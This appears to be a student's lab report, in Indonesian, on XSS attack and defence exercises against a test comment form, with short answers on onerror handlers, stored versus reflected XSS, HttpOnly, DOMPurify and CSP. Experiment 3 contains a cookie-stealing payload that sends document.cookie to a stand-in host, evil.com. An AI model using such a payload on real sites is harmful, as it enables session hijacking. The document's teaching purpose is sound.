


LATIHAN 2:XSS Attack & Defense

Eksperimen 1:
Catatan: Muncul nama hacker yang dimasukkan tadi di bagian komentar

Eksperimen 2:
Catatan: Karena yang coba dimasukkan adalah gambar

Eksperimen 3:
Catatan: 
Cookie: session Test-hello; persistent Test-world; cookieRoot-bisa-dimana-saja; secureTest-secure; visitCount=76; sessionld-abc123xyz, username John Doe

Kalau dengan ini fetch('https://evil.com?cookie=' + document.cookie) gambar bisa muncul di komentar

Eksperimen 4:
Catatan: Latar belakang website berubah menjadi merah

Eksperimen 5:
Catatan: Sekarang semua script gagal dan ditampilkan di bagian komenter

Eksperimen 6:
Catatan: Versi secure aman karena textContent hanya memperlakukan input pengguna sebagai data teks mentah tanpa pernah mencoba membacanya sebagai instruksi atau kode program. Dengan cara ini, karakter berbahaya seperti <script> kehilangan kekuatannya karena browser hanya menampilkannya sebagai tulisan biasa di layar alih-alih menjalankannya sebagai perintah.

Berikut adalah jawaban singkat untuk membantu kamu memahami konsep keamanan ini lebih dalam:

1. Mengapa  Bisa Menjalankan JavaScript?
Atribut onerror adalah sebuah event handler yang dirancang untuk menjalankan kode jika gambar gagal dimuat; penyerang memanfaatkan ini dengan memberikan sumber gambar yang sengaja salah (misal: ) agar browser otomatis mengeksekusi perintah JavaScript di dalamnya.

2. Perbedaan Stored vs Reflected XSS (Perspektif Attacker)
Pada Stored XSS, penyerang "menanam" skrip permanen di database server (seperti komentar atau profil) agar semua orang yang melihat halaman itu terkena dampaknya, sedangkan pada Reflected XSS, penyerang harus menjebak korban secara spesifik untuk mengklik tautan jahat yang memantulkan skrip dari URL kembali ke browser korban.

3. Mengapa HttpOnly Penting dalam XSS?
HttpOnly adalah pertahanan terakhir; meskipun penyerang berhasil menembus celah XSS, mereka tetap tidak bisa mencuri session ID melalui JavaScript (document.cookie), sehingga akun pengguna tetap aman dari pembajakan sesi.

4. Cara Aman Menampilkan Rich Text
Gunakan pustaka HTML Sanitizer (seperti DOMPurify) untuk membersihkan input pengguna dengan cara menghapus semua tag dan atribut berbahaya, sehingga hanya tag yang diizinkan (seperti <b> atau <i>) yang tetap ada.

5. Kegunaan Content Security Policy (CSP)
CSP adalah set aturan keamanan yang memberitahu browser sumber mana saja (domain, skrip, atau gaya) yang dipercaya untuk dijalankan, sehingga serangan skrip asing dari luar bisa diblokir secara otomatis.

Screenshot:

